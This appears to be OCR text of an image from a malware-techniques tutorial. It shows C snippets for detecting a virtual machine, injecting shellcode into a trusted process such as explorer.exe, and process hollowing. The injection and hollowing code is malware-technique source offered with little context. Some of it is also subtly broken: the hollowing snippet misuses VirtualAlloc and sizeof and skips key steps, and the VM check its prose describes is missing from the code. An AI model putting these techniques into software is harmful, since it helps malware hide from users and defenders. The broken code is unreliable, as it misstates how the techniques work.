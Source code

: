 ```c
int main() {
  if (is_vm()) {
    return 0;
  }
  ...
}
```

This above code will detect the CPU's identifier for a string that indicates it is in a VMWare virtual machine, it will exit if it is detected.

**Process injection**

Process injection is when malicious code is injected into legitimate processes like `explorer.exe` or `svchost.exe`. This helps hide the malicious intents of the malware by executing within a trusted process.

```c
...

int main() {
  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // replace with the target process PID
  LPVOID alloc_mem = VirtualAllocEx(hProcess, NULL, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(hProcess, alloc_mem, shellcode, sizeof(shellcode), NULL);
  CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
  CloseHandle(hProcess);
  return 0;
}
```

In this example the shellcode is injected into the trusted process and executed from the trusted process.

**Process hollowing**

Process hollowing is a technique that malware uses where it suspends a legitimate process, replaces its code with malicious code, and resumes the execution with the malicious code. This allows the malware to seem like it is a legitimate process.

```c
...

void hollow_proc(char *target, char *payload) {
  STARTUPINFO si = {0};
  PROCESS_INFORMATION pi = {0};
  si.cb = sizeof(si);
  
  if (CreateProcess(target, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, &si, &pi)) {
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &ctx);
    LPVOID alloc = VirtualAlloc(pi.hProcess, NULL, sizeof(payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, alloc, payload, sizeof(payload), NULL);
    ResumeThread(pi.hThread);
  }
}

int main() {
  hollow_proc("C:\\path\\to\\my\proc.exe", "my_payload");
  return 0;
}
```

